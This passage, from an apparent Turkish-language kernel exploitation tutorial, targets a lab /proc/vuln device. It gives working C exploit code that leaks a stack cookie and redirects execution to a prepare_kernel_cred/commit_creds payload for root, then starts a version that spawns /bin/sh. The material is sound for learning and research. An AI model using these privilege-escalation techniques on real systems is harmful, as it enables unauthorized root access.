 ```c
    // prepare_kernel_cred'i çağrıyoruz
    "call rax;"

    // prepare_kernel_cred'in dönüş değerini rdi'a yazıyoruz
    // bu şekilde artık commit_creds'in ilk parametresi yeni 
    // cred struct objesine işaret ediyor
    "mov rdi, rax;"
  
    // rax'a commit_creds'in adresini yazıyoruz
    "movabs rax, 0xffffffff810947b0;" 

    // commit_cred'i çağrıyoruz
    "call rax;"
    
    ".att_syntax;"
  );
}

int main(){
    int fd = open(DEVICE, O_RDWR);
    unsigned long w[3];
    unsigned long r[5];

    read(fd, r, sizeof(r));
    for(int i = 0; i < sizeof(r)/8; i++){
        printf("Reading (%d): %lx\n", i, r[i]);
    }
    printf("Cookie leaked! %lx\n", r[4]);

    w[1] = r[4];
    w[2] = (unsigned long)&root;
    puts("Writing payload to "DEVICE);
    write(fd, w, sizeof(w));
    close(fd);
    return 0;
}
```
Hadi exploitimizi test etmek adına sistemde root olmayan yeni bir kullanıcı oluşturup derlediğimiz 
exploiti bu kullanıcı olarak çalıtştıralım:
```
useradd user
mkdir -p /home/user
cp exploit /home/user/exploit 
chown -R user:user /home/user
su user
```
Bu yeni kullanıcı olarak ev dizinimizde exploiti çalıştırırsak... hiçbirşey olmayacak. Exploit 
sorunsuzca çalışacak, dmesg çıktısında herhangi bir kernel hatası ile karşılaşmıyacağız ama 
root da olamayacağız. Bunun sebebi `commit_creds`in root cred'lerini sadece anlık işleme uygulaması,
bu işlem de bizim exploitimiz. Exploitimiz çalıştıktan sonra sorunsuzca root alıyor ancak bunu 
herhangi bir şekilde kullanmadan exploitimiz sonlanıyor. Exploitimizi gerçekten de kullanılabilir 
yapmak adına en son bir shell çalıştırabiliriz:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

// en son çalıştıracağımız komut
// sh shellini çalıştırıyor olacağız
#define CMD         "/bin/sh"

#define DEVICE      "/proc/vuln"
```
